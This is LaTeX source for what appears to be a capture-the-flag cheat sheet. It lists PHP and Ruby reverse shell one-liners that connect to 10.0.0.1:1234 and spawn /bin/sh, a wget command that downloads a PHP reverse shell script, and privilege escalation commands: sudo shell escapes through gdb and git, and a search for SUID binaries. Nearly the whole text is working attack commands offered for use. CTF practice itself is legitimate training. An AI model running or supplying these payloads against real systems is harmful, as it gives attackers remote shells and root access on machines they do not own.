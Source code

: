 \documentclass[12pt,a4paper]{scrartcl}
\begin{document}
\subsection{PHP}
As a file:
\begin{lstlisting}
	wget https://raw.githubusercontent.com/blanks-hub/CTF/main/php-reverse-shell.php
\end{lstlisting}
Command line:
\begin{lstlisting}
	php -r '$sock=fsockopen("10.0.0.1",1234);
	exec("/bin/sh -i <&3 >&3 2>&3");'
\end{lstlisting}

\subsection{Ruby}
\begin{lstlisting}
	ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;
	exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
\end{lstlisting}

\section{Privilege Escalation}
\begin{lstlisting}
	
\end{lstlisting}

\subsection{sudo -l}
\begin{lstlisting}
	sudo -u user /var/www/gdb -nx -ex '!sh' -ex quit
	
	sudo -u user /usr/bin/git help config
	!/bin/sh
\end{lstlisting}

\subsection{SUID}
Setuids can be exploited. Research for each abnormal setuid program.
To check what we can run as SUID:
\begin{lstlisting}
	find / -perm -u=s -type f 2>/dev/null
\end{lstlisting}
\end{document}
